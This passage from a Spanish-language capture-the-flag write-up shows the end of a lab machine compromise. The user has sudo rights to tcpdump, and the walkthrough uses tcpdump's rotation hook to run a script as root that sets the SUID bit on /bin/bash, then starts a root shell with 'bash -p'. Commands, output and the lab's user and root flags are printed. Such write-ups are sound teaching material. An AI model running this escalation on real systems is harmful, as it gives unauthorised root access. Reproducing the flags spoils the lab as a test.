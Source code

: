 Veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
34b5d0c1549cd5a7b5dcb304224a7e14
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

Vemos que podemos ejecutar el binario `tcpdump` como el usuario `root`, por lo que vamos hacer lo siguiente:

```shell
COMMAND='chmod u+s /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Info:

```
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
```

Ahora si comprobamos si ha funcionado:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Veremos que funciono, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
c7ca6cfdaccd72f9fe47bce0a9474a82
```
